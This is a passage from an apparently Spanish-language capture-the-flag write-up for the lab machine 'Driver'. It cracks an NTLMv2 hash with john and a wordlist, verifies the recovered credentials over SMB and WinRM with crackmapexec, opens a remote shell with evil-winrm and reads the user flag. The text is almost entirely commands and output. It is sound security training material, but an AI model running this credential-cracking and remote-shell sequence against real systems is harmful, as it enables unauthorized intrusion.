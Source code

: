 ```shell
❯ john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
liltony          (tony)
1g 0:00:00:00 DONE (2022-12-12 11:04) 33.33g/s 1092Kp/s 1092Kc/s 1092KC/s !!!!!!..eatme1
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
```

Con `crackmapexec` verificamos que el usuario y password son válidas

```bash
❯ crackmapexec smb 10.10.11.106 -u 'tony' -p 'liltony'
SMB         10.10.11.106  445    DRIVER           [*] Windows 10 Enterprise 10240 x64 (name:DRIVER) (domain:DRIVER) (signing:False) (SMBv1:True)
SMB         10.10.11.106  445    DRIVER           [+] DRIVER\tony:liltony 
```
Como tenemos el puerto 5985 abierto verificamos con la misma herramienta pero con el switch de `winrm` que tengamos acceso por este servicio

```bash
❯ crackmapexec winrm 10.10.11.106 -u 'tony' -p 'liltony'
SMB         10.10.11.106  5985   DRIVER           [*] Windows 10.0 Build 10240 (name:DRIVER) (domain:DRIVER)
HTTP        10.10.11.106  5985   DRIVER           [*] http://10.10.11.106:5985/wsman
WINRM       10.10.11.106  5985   DRIVER           [+] DRIVER\tony:liltony (Pwn3d!)
```

Procedemos a conectarnos con `evil-winrm` al servicio de administración remota de Windows

```bash
❯ evil-winrm -i 10.10.11.106 -u 'tony' -p 'liltony'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\tony\Documents> whoami
driver\tony
```

La flag la encontramos en el directorio `Desktop` del usuario `tony`

```bash
*Evil-WinRM* PS C:\Users\tony\Desktop> type user.txt
f323ea7af7e1d20f7***************
```

